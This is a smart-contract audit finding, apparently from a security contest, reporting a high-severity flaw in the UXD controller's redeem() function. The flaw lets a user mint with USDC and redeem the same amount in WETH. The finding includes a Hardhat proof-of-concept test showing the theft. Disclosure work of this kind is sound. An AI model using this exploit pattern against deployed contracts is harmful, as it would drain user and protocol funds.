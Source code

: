 Nyx

high

# Attacker can steal funds

## Summary
Attacker can steal funds with redeem().
## Vulnerability Detail
Users deposit crypto assets such as ETH and USDC to mint UXD. UXD token holders can at any time retrieve ~1USD worth of assets for each UXD burned. But when using redeem(), attacker can choose assetToken == WETH and take UXD amount of WETH.

Bob mints 10 UXD with 10 USDC.
And redeem with assetToken == WETH and amount == 10.
Now bob has 10 WETH.
test : 
```solidity
it("can redeem", async () => {
    let { controller, asset, redeemable, weth } = await loadFixture(
      controllerFixture
    );
    let amount = ethers.utils.parseEther("1");
    let minAmountOut = 0;

    await (await asset.approve(controller.address, amount)).wait();
    await (
      await controller.mint(asset.address, amount, minAmountOut, bob.address)
    ).wait();

    console.log(
      "bobBalanceBefore",
      (await weth.balanceOf(bob.address)).toString()
    );

    await (await redeemable.approve(controller.address, amount)).wait();
    await expect(
      controller.redeem(weth.address, amount, minAmountOut, bob.address)
    ).to.emit(controller, "Redeemed");
    
    console.log(
      "bobBalanceAfter",
      (await weth.balanceOf(bob.address)).toString()
    );
  });
```
## Impact
Protocol can lose funds.
## Code Snippet
https://github.com/sherlock-audit/2023-01-uxd/blob/main/contracts/core/UXDController.sol#L264-L279
## Tool used

Manual Review

## Recommendation
When redeeming, users must retrieve ~1 USD worth of assets for each UXD burned.